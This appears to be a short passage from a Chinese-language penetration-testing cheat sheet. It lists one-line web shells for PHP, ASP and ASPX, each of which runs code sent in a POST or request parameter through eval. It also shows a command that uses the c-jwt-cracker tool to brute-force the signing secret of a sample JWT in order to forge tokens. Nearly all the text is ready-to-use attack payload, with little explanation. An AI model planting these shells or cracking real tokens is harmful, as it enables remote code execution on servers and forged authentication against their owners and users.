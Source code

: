 ```php
<?php @eval($_POST['attack']);?>
```

```asp
<%eval request ("pass")%>
```

```aspx
<%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>
```

# JWT伪造

密钥爆破工具：c-jwt-cracker

```
$ > ./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
```



